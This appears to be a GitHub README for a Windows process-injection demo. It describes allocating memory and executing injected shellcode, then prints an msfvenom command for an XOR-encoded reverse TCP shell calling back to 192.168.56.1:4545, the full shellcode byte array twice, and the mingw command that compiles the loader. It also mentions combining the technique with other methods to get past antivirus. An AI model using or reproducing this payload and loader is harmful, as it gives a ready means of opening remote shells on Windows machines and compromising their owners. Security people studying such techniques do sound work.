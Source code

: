 # Process injection

This is an example of how to execute a process injection in Windows. All the code used is in /Source_code, /Demo contains a recording of the code in execution.

The program will ask the Windows API to allocate some memory for a new process, copy the given shellcode into this memory, and execute it.

Obviously this won't bypass any antivirus on its own and Windows Defender is disabled for the demonstration, but it can be usefull once combined with other methods.

![Watch a demo here]()

## How to use

Replace <SHELLCODE_TO_REPLACE> within the process_injec.c at line 5 with the shellcode you want to execute. Then just compile and execute the program.

For example we can use msfvenom to generate a payload : 

```
$ msfvenom --platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4545 -e x64/xor -b "\x00\x0a\x0d" -f c
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor chosen with final size 503
Payload size: 503 bytes
Final size of c file: 2144 bytes
unsigned char buf[] = 
"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\xa7\xbb\x02\x1d\x1c\x23\xa8\xab\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5b\xf3\x81"
"\xf9\xec\xcb\x68\xab\xa7\xbb\x43\x4c\x5d\x73\xfa\xfa\xf1"
"\xf3\x33\xcf\x79\x6b\x23\xf9\xc7\xf3\x89\x4f\x04\x6b\x23"
"\xf9\x87\xf3\x89\x6f\x4c\x6b\xa7\x1c\xed\xf1\x4f\x2c\xd5"
"\x6b\x99\x6b\x0b\x87\x63\x61\x1e\x0f\x88\xea\x66\x72\x0f"
"\x5c\x1d\xe2\x4a\x46\xf5\xfa\x53\x55\x97\x71\x88\x20\xe5"
"\x87\x4a\x1c\xcc\xa8\x28\x23\xa7\xbb\x02\x55\x99\xe3\xdc"
"\xcc\xef\xba\xd2\x4d\x97\x6b\xb0\xef\x2c\xfb\x22\x54\x1d"
"\xf3\x4b\xfd\xef\x44\xcb\x5c\x97\x17\x20\xe3\xa6\x6d\x4f"
"\x2c\xd5\x6b\x99\x6b\x0b\xfa\xc3\xd4\x11\x62\xa9\x6a\x9f"
"\x5b\x77\xec\x50\x20\xe4\x8f\xaf\xfe\x3b\xcc\x69\xfb\xf0"
"\xef\x2c\xfb\x26\x54\x1d\xf3\xce\xea\x2c\xb7\x4a\x59\x97"
"\x63\xb4\xe2\xa6\x6b\x43\x96\x18\xab\xe0\xaa\x77\xfa\x5a"
"\x5c\x44\x7d\xf1\xf1\xe6\xe3\x43\x44\x5d\x79\xe0\x28\x4b"
"\x9b\x43\x4f\xe3\xc3\xf0\xea\xfe\xe1\x4a\x96\x0e\xca\xff"
"\x54\x58\x44\x5f\x54\xa2\x54\xdb\x99\xf8\x88\x30\x1d\x1c"
"\x62\xfe\xe2\x2e\x5d\x4a\x9c\xf0\x83\xa9\xab\xa7\xf2\x8b"
"\xf8\x55\x9f\xaa\xab\xb6\x7a\xc2\xb5\x24\x22\xe9\xff\xee"
"\x32\xe6\x51\x95\xd2\xe9\x11\xeb\xcc\x24\x1a\xe3\xf6\xe4"
"\x22\x4d\xd3\x03\x1c\x1c\x23\xf1\xea\x1d\x92\x82\x76\x1c"
"\xdc\x7d\xfb\xf7\xf6\x33\xd4\x51\x12\x68\xe3\x58\x7b\x4a"
"\x94\xde\x6b\x57\x6b\xef\x32\xc3\x5c\xa6\xc9\xa7\x74\x47"
"\x44\xd7\x55\x95\xe4\xc2\xbb\xe6\xe3\x4e\x94\xfe\x6b\x21"
"\x52\xe6\x01\x9b\xb8\x68\x42\x57\x7e\xef\x3a\xc6\x5d\x1e"
"\x23\xa8\xe2\x1f\xd8\x6f\x79\x1c\x23\xa8\xab\xa7\xfa\x52"
"\x5c\x4c\x6b\x21\x49\xf0\xec\x55\x50\x2d\xe3\xc2\xa6\xfe"
"\xfa\x52\xff\xe0\x45\x6f\xef\x83\xef\x03\x1c\x54\xae\xec"
"\x8f\xbf\x7d\x02\x75\x54\xaa\x4e\xfd\xf7\xfa\x52\x5c\x4c"
"\x62\xf8\xe2\x58\x7b\x43\x4d\x55\xdc\x60\xe6\x2e\x7a\x4e"
"\x94\xdd\x62\x12\xd2\x6b\x84\x84\xe2\xc9\x6b\x99\x79\xef"
"\x44\xc8\x96\x12\x62\x12\xa3\x20\xa6\x62\xe2\xc9\x98\x58"
"\x1e\x05\xed\x43\xa7\xba\xb6\x15\x36\x58\x6e\x4a\x9e\xd8"
"\x0b\x94\xad\xdb\xb1\x82\xe6\xfc\x56\xad\x10\xe0\xa8\x70"
"\x72\x76\x23\xf1\xea\x2e\x61\xfd\xc8\x1c\x23\xa8\xab";
```

We can then place the shellcode inside process_inj.c and I'll use mingw-w64 to compile it for Windows under Linux :

```
$ cat process_inj.c | head -n 41 | tail -n 37
unsigned char shellcode[] = 
"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\xa7\xbb\x02\x1d\x1c\x23\xa8\xab\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5b\xf3\x81"
"\xf9\xec\xcb\x68\xab\xa7\xbb\x43\x4c\x5d\x73\xfa\xfa\xf1"
"\xf3\x33\xcf\x79\x6b\x23\xf9\xc7\xf3\x89\x4f\x04\x6b\x23"
"\xf9\x87\xf3\x89\x6f\x4c\x6b\xa7\x1c\xed\xf1\x4f\x2c\xd5"
"\x6b\x99\x6b\x0b\x87\x63\x61\x1e\x0f\x88\xea\x66\x72\x0f"
"\x5c\x1d\xe2\x4a\x46\xf5\xfa\x53\x55\x97\x71\x88\x20\xe5"
"\x87\x4a\x1c\xcc\xa8\x28\x23\xa7\xbb\x02\x55\x99\xe3\xdc"
"\xcc\xef\xba\xd2\x4d\x97\x6b\xb0\xef\x2c\xfb\x22\x54\x1d"
"\xf3\x4b\xfd\xef\x44\xcb\x5c\x97\x17\x20\xe3\xa6\x6d\x4f"
"\x2c\xd5\x6b\x99\x6b\x0b\xfa\xc3\xd4\x11\x62\xa9\x6a\x9f"
"\x5b\x77\xec\x50\x20\xe4\x8f\xaf\xfe\x3b\xcc\x69\xfb\xf0"
"\xef\x2c\xfb\x26\x54\x1d\xf3\xce\xea\x2c\xb7\x4a\x59\x97"
"\x63\xb4\xe2\xa6\x6b\x43\x96\x18\xab\xe0\xaa\x77\xfa\x5a"
"\x5c\x44\x7d\xf1\xf1\xe6\xe3\x43\x44\x5d\x79\xe0\x28\x4b"
"\x9b\x43\x4f\xe3\xc3\xf0\xea\xfe\xe1\x4a\x96\x0e\xca\xff"
"\x54\x58\x44\x5f\x54\xa2\x54\xdb\x99\xf8\x88\x30\x1d\x1c"
"\x62\xfe\xe2\x2e\x5d\x4a\x9c\xf0\x83\xa9\xab\xa7\xf2\x8b"
"\xf8\x55\x9f\xaa\xab\xb6\x7a\xc2\xb5\x24\x22\xe9\xff\xee"
"\x32\xe6\x51\x95\xd2\xe9\x11\xeb\xcc\x24\x1a\xe3\xf6\xe4"
"\x22\x4d\xd3\x03\x1c\x1c\x23\xf1\xea\x1d\x92\x82\x76\x1c"
"\xdc\x7d\xfb\xf7\xf6\x33\xd4\x51\x12\x68\xe3\x58\x7b\x4a"
"\x94\xde\x6b\x57\x6b\xef\x32\xc3\x5c\xa6\xc9\xa7\x74\x47"
"\x44\xd7\x55\x95\xe4\xc2\xbb\xe6\xe3\x4e\x94\xfe\x6b\x21"
"\x52\xe6\x01\x9b\xb8\x68\x42\x57\x7e\xef\x3a\xc6\x5d\x1e"
"\x23\xa8\xe2\x1f\xd8\x6f\x79\x1c\x23\xa8\xab\xa7\xfa\x52"
"\x5c\x4c\x6b\x21\x49\xf0\xec\x55\x50\x2d\xe3\xc2\xa6\xfe"
"\xfa\x52\xff\xe0\x45\x6f\xef\x83\xef\x03\x1c\x54\xae\xec"
"\x8f\xbf\x7d\x02\x75\x54\xaa\x4e\xfd\xf7\xfa\x52\x5c\x4c"
"\x62\xf8\xe2\x58\x7b\x43\x4d\x55\xdc\x60\xe6\x2e\x7a\x4e"
"\x94\xdd\x62\x12\xd2\x6b\x84\x84\xe2\xc9\x6b\x99\x79\xef"
"\x44\xc8\x96\x12\x62\x12\xa3\x20\xa6\x62\xe2\xc9\x98\x58"
"\x1e\x05\xed\x43\xa7\xba\xb6\x15\x36\x58\x6e\x4a\x9e\xd8"
"\x0b\x94\xad\xdb\xb1\x82\xe6\xfc\x56\xad\x10\xe0\xa8\x70"
"\x72\x76\x23\xf1\xea\x2e\x61\xfd\xc8\x1c\x23\xa8\xab";

$ x86_64-w64-mingw32-gcc process_inj.c -o process_inj.exe
```

The progam is now ready to be used, you can go watch the demo to see it being executed.
